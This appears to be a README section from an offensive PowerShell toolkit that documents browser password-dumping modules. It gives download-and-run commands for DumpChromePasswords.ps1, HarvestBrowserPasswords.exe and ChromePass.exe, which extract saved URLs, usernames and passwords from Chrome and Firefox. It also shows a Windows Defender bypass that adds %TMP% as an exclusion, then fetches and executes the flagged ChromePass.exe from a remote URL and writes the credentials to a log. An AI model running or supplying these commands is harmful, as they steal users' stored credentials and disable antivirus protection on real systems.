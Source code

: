 ## Module Name
   <b><i>DumpChromePasswords.ps1</i></b>

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|DumpChromePasswords|dumps URLs, usernames, and passwords from Chrome.|User Land|Only dumps chrome browser|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/DumpChromePasswords.ps1" -OutFile "DumpChromePasswords.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip" -OutFile "sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip"
```

**prerequisites:**
``` 
   1. You must have the System.Data.SQLite.dll handy (see below)
   2. Your database must be accessible (close Chrome, or make some copy)
   3. It must by your database. If Chrome cannot open it, the script will probably fail as well.
```

```powershell
.\DumpChromePasswords.ps1
```

<br />


## Module Name
   <b><i>HarvestBrowserPasswords.exe</i></b>

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|HarvestBrowserPasswords|dumps URLs, usernames, and passwords from major browsers.|User Land|Dumps major browsers|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/HarvestBrowserPasswords.exe" -OutFile "HarvestBrowserPasswords.exe"
```

```powershell
.\HarvestBrowserPasswords.exe -a, --all
.\HarvestBrowserPasswords.exe -f, --firefox
.\HarvestBrowserPasswords.exe -c, --chrome
```

<br />


## Module Name
   <b><i>ChromePass.exe - UNDER-DEVELOP (NOT-STABLE)</i></b>
   
|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|ChromePass|dumps usernames, passwords from chrome|Administrator|[Invoke-Exclusions.ps1](https://github.com/r00t-3xp10it/redpill/tree/main/lib/WD-Bypass#module-name) - Evade AV\Download PE\Exec PE|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name WinDefend)

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name ConfigDefender).ExportedCommands|findstr /C:"Set-MpPreference")
```

```powershell
#Get Exclusions List
.\Invoke-Exclusions.ps1 -action "query"

## Add WD exclusion (To execute ChromePass.exe) + download (ChromePass.exe)  + execute (ChromePass.exe)
# exclusion cmdline: Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"

#Remove ExclusionPath "$Env:TMP" from Windows Defender list
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionPath" -Exclude "$Env:TMP"
```

<br />

## Final Notes
```
ChromePass.exe standalone executable its flagged by AV as malicious, thats why we are executing Invoke-Exclusions cmdlet.
The trick consistes in adding %TMP% directory to WD ExclusionPath, then Download\Execute ChromePass.exe from that location.

Invoke-Exclusions.ps1 cmdlet will take care of adding the exclusion, download PE, execute PE (ChromePass.exe).
Warning: Invoke-Exclusions will 'NOT' delete itself or ChromePass.exe (deliver by -Uri parameter) at the end of exec.
```
